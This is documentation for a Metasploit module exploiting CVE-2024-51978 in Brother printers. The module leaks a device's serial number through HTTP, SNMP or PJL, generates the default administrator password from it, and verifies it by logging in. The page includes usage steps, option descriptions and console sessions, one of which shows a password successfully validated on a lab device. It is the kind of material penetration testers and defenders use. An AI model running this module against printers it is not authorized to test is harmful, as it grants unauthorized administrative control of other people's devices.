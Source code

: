 ## Vulnerable Application

By leaking a target devices serial number, a remote attacker can generate the target devices default
administrator password. The target device may leak its serial number via unauthenticated HTTP, HTTPS, IPP,
SNMP, or PJL requests.

## Testing

## Verification Steps

1. Start msfconsole
2. `use auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `run`

## Options

### TargetSerial
A serial number to use for this target. If none is specified, the target will be queried via either HTTP, SNMP, or PJL
to discover the serial number (as per the `DiscoverSerialVia` option).

### DiscoverSerialVia
The technique to use to discover the serial number. Can be one of `ANY`, `HTTP`, `SNMP`, or `PJL`. The default is `ANY`.

### SaltLookupIndex
The index into the salt table to use when generating the default password. The default is `254`, which is the expected
value for Brother devices.

### SaltData
The salt data to use when generating the default password. By default, no salt data is required.

### ValidatePassword
Validate the default password by attempting to login. By default, this is set to `true`.

## Scenarios

_Note: In these example scenarios, the leaked serial numbers have been redacted with `***************`._

### MFC-L9570CDW

In this example, the target `MFC-L9570CDW` device was running the latest firmware at the time of testing (June 20, 2025),
whereby the `MAIN` version was `ZQ2503251054`, and the `SUB1` version was `1.35`. We can note that while the serial
number could not be leaked via HTTPS (via CVE-2024-51977), we were able to leak the serial number via SNMP and then
proceed to generate the correct default administrator password. The module validated that this password value is still
the default administrator password for the device.

```
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set RHOSTS 192.168.86.62
RHOSTS => 192.168.86.62
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > show options 

Module options (auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978):

   Name               Current Setting            Required  Description
   ----               ---------------            --------  -----------
   COMMUNITY          public                     yes       SNMP Community String
   PJL_RPORT          9100                       yes       The target port number for PJL
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported p
                                                           roxies: sapni, socks4, socks5, socks5h, http
   RETRIES            1                          yes       SNMP Retries
   RHOSTS             192.168.86.62              yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                           /basics/using-metasploit.html
   RPORT              443                        yes       The target port (TCP)
   SNMP_OID_SERAILNO  1.3.6.1.2.1.43.5.1.1.17.1  yes       The SNMP OID for the serial number
   SNMP_RPORT         161                        yes       The target port number for SNMP
   SSL                true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                          yes       The base URI path to the web admin console
   TIMEOUT            1                          yes       SNMP Timeout
   VERSION            1                          yes       SNMP Version <1/2c>
   VHOST                                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > run
[*] Running module against 192.168.86.62
[*] Attempting to leak serial number via HTTP
[-] Unexpected HTTP response code: 302
[*] Attempting to leak serial number via SNMP
[*] Leaked target serial number via SNMP: ***************
[*] Generating default password with salt lookup index 254 and salt data 7HOLDhk'
[*] Generated password value: r/5LM&U>
[*] Attempting to validate password
[+] Successfully validated the administrator password: r/5LM&U>
[*] Auxiliary module execution completed
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) >
```

### DCP-L2530DW

In this example, the target `DCP-L2530DW` device was running the following firmware version, whereby the `MAIN` version
was `ZC2403082049`, and the `SUB1` version was `1.04`. We can note that the serial number was successfully leaked via
HTTPS (via CVE-2024-51977), however the password value generated was not the devices default password, so validation
did not succeed.

```
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set RHOSTS 192.168.86.3
RHOSTS => 192.168.86.3
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > show options 

Module options (auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978):

   Name               Current Setting            Required  Description
   ----               ---------------            --------  -----------
   COMMUNITY          public                     yes       SNMP Community String
   PJL_RPORT          9100                       yes       The target port number for PJL
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported p
                                                           roxies: sapni, socks4, socks5, socks5h, http
   RETRIES            1                          yes       SNMP Retries
   RHOSTS             192.168.86.3               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                           /basics/using-metasploit.html
   RPORT              443                        yes       The target port (TCP)
   SNMP_OID_SERAILNO  1.3.6.1.2.1.43.5.1.1.17.1  yes       The SNMP OID for the serial number
   SNMP_RPORT         161                        yes       The target port number for SNMP
   SSL                true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                          yes       The base URI path to the web admin console
   TIMEOUT            1                          yes       SNMP Timeout
   VERSION            1                          yes       SNMP Version <1/2c>
   VHOST                                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > run
[*] Running module against 192.168.86.3
[*] Attempting to leak serial number via HTTP
[*] Leaked target serial number via HTTP: ***************
[*] Generating default password with salt lookup index 254 and salt data 7HOLDhk'
[*] Generated password value: pX-KDn3+
[*] Attempting to validate password
[-] Failed to login with the administrator password: pX-KDn3+
[*] Auxiliary module execution completed
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) >
```
